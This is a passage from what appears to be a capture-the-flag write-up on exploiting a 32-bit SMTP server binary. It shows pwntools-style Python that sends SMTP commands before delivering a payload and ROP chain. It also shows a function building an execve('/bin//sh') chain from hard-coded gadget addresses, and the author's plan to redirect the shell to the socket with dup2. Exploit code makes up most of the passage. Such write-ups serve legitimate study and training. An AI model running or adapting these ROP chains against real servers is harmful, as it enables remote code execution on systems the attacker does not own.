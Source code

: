 ```python
    print(send_and_receive(b"HELO"))
    print(send_and_receive(b"MAIL FROM: <test@test.com>"))
    print(send_and_receive(b"RCPT TO: <dga-mi-bruz.recrutement.fct@intradef.gouv.fr>"))
    print(send_and_receive(b"DATA"))
    sh.send(p + ropchain + b"\r\n")
    print(send_and_receive(b"QUIT"))
    sh.interactive()
```

Now I just have to build the ROP chain.

### Building the ROP chain

I am using [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) to get a list of all gadgets I can use.

My first try has been to launch a shell on the server:

```python
def write_what_where(what, where):
    p = b""
    p += p32(0x08061d36) # pop edx ; ret
    p += p32(where)
    p += p32(0x080a8f36) # pop eax ; ret
    p += what
    p += p32(0x0808b17d) # mov dword ptr [edx], eax ; ret
    return p

BASE = 0x080d50c0

def binbash():
    p = b""
    p += write_what_where(b'/bin', BASE)
    p += write_what_where(b'//sh', BASE + 4)
    p += write_what_where(p32(0), BASE + 8)

    p += p32(0x08061d5d) # pop ecx ; pop ebx ; ret
    p += p32(BASE+8) # @ .data + 8
    p += p32(BASE) # padding without overwrite ebx
    p += p32(0x08061d36) # pop edx ; ret
    p += p32(BASE+8) # @ .data + 8
    p += p32(0x080a8f36) # pop eax ; ret
    p += p32(11)
    p += p32(0x804e54f) # int 0x80
    return p
```

This is a basic execv shellcode.

It's working: a bash shell is opened server side.
However I don't have access to this shell remotely as my socket connection does not go to this process (and the process uses the normal `stdin` and `stdout` streams).

From browsing on the web, I understood that I need to first redirect the `stdin` and `stdout` streams to my socket.
This can be performed using `dup2` (see the [manual page](https://man7.org/linux/man-pages/man2/dup.2.html)), but sadly this function was not present in the code base.
